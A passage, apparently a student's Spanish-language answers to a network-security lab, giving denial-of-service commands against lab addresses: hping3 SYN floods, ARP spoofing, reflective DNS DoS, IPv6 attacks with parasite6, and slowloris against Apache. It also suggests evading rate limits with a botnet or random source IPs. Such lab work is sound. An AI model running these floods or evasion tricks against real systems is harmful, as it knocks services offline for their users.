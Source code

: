 Para el DOS directo:

	hping3 10.10.150.150 --flood

También podríamos dejar a una máquina sin conectividad, asignando su ip del router a una mac inventada:

	# watch ./packme.sh

Para el reflective DOS, podríamos usar este ataque a DNS

	# ./dnsdrdos -f nameservers -s 10.10.102.150 -d google.com.
 
### q)
Considerando que todos los sistemas del laboratorio tiene autoconfiguración de la pila IPv6, ¿cómo podría tratar de tirar abajo todos los sistemas? Haga también pruebas de flooding en IPv6. ¿Cómo podríamos protegernos?.

	# alive6 eth1
	# parasite6 eth1 [mac-inventada]

Podríamos protegernos añadiendo las tablas arp estáticas (supuestamente)

### r)
Ataque un servidor apache para provocarle un DoS. ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produce desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?

Para el ataque podríamos usar SYN al puerto 80:

	# hping3 10.10.150.150 --flood

Para protegernos, podríamos limitar las conexiones por ip de origen. O usar OpenBSD :D

Para intentar saltarnos la limitación, con una BOTNET, o con ips aleatorias si estamos en la red.

Tambien podríamos usar slowloris para atacar sólo la parte de apache y no al kernel, aunque no funciona en todas las versiones. Según su sitio web:

	perl slowloris.pl -dns example.com

